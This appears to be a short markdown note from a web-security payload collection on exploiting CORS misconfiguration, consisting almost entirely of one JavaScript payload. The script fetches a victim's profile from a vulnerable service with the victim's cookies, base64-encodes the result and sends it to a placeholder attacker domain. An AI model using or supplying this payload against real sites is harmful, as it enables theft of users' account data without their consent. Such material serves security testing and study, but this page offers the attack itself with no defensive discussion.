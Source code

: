 # CORS Misconfiguration

## Table of Contents
- [Data Exfiltration](#data-exfiltration)

## Data Exfiltration

### Sensitive user data can be exfiltrated.

- Account information exposure
   ```html
    <script>
    (async () => {
    const response = await fetch('https://[VULNERABLE-SERVICE]/profile', {
        method: 'GET',
        credentials: 'include'
    });

    const data = await response.json();
    const base64 = btoa(JSON.stringify(data));

    const targetUrl = `https://[ATTACKER-DOMAIN]/?response=${encodeURIComponent(base64)}`;
    window.open(targetUrl, '_blank');
    })();
    </script>
   ```